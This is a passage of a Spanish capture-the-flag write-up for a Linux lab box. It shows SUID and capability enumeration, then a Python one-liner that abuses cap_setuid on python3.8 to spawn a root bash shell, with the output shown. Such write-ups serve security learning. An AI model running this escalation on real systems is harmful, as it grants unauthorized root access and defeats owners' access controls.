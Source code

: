 ~~~ bash
nathan@cap:~$ find / -perm -4000 2>/dev/null | grep -vE "snap|lib"
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/at
/usr/bin/chsh
/usr/bin/su
/usr/bin/fusermount
~~~



# Escalada de Privilegios
---
## Abusing `setuid` Capabilities - `cap_setuid`

Si listamos las `capabilities` presentes en el sistema, veremos que `pyhton` tiene asignado `cap_setuid`

~~~ bash
nathan@cap:/tmp$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
~~~

Esta capacidad nos permite cambiar el `uid` (User Identifier), que es el valor que identifica a los usuarios en sistemas Linux. Sabiendo esto, podemos asignarnos el `uid` del usuario `root`, y obtener una consola con privilegios elevados

~~~ bash
nathan@cap:/tmp$ python3 -c 'import os; os.setuid(0);os.system("whoami")'
root
~~~

## Root time

Sabiendo esto, nos convertiremos en el usuario `root` lanzando una `bash` cambiando el valor del `uid`, esto no ocurre con los grupos, solamente estamos cambiando el valor del usuario

~~~ bash
nathan@cap:~$ python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:~\# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
~~~
